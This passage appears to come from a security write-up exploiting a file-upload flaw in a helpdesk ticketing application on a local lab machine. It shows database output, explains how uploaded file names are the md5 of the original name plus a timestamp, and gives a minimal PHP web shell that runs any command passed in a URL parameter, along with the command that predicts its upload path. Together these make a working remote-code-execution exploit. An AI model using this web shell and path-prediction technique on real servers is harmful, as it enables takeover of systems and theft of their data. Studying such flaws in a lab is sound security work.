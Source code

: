 ```
| last_update   | int(11)      | NO   |     | 0       |                |
| status        | smallint(2)  | NO   |     | 1       |                |
| previewcode   | varchar(12)  | YES  |     | NULL    |                |
| replies       | int(11)      | NO   |     | 0       |                |
| last_replier  | varchar(255) | YES  |     | NULL    |                |
| custom_vars   | text         | YES  |     | NULL    |                |
+---------------+--------------+------+-----+---------+----------------+
16 rows in set (0.00 sec)
```

```
mysql> select fullname,date from hdz_tickets;
+-----------+------------+
| fullname  | date       |
+-----------+------------+
| something | 1549916179 |
+-----------+------------+
1 rows in set (0.00 sec)
```

Cool now we not only know the table structure, but we know the values we need to pull out as well. 

OK, so based on the code we saw earlier, if we grab the `fullname` and the `date`, `md5sum` and then add the `extension` to the end of it, we should be able to get the same value as one of the files in the "/uploads/" folder.

```
vagrant@devspace:~$ echo -n "args.txt1549916179" | md5sum
bb72ef5c282d31ebb2366a7e6a9ccf15  -
vagrant@devspace:~$ ls -la /var/www/html/public_html/uploads/tickets/ | grep bb72ef5c282d31ebb2366a7e6a9ccf15
-rw-rw-r-- 1 vagrant www-data   79 Feb 11 20:16 bb72ef5c282d31ebb2366a7e6a9ccf15.txt
```

[Contact](images/contact.jpg)

And now if we go to the uploads folder, we should be able to access our .txt file that we uploaded.

```
http://192.168.33.10/public_html/uploads/tickets/bb72ef5c282d31ebb2366a7e6a9ccf15.txt
```

Let's try with a quick PHP file.

```
<?php
$a = $_GET["a"];
echo system($a);
?>
```

Upload it, grab the timestamp, and then generate the hash.

```
echo -n "phpshell.php1549923644" | md5sum | sed 's/  -//' | sed 's/$/.php/'
```

Now we can go to `http://192.168.33.10/public_html/uploads/tickets/<md5sum>.php` and use our `a?` parameter to pass in a shell command. 
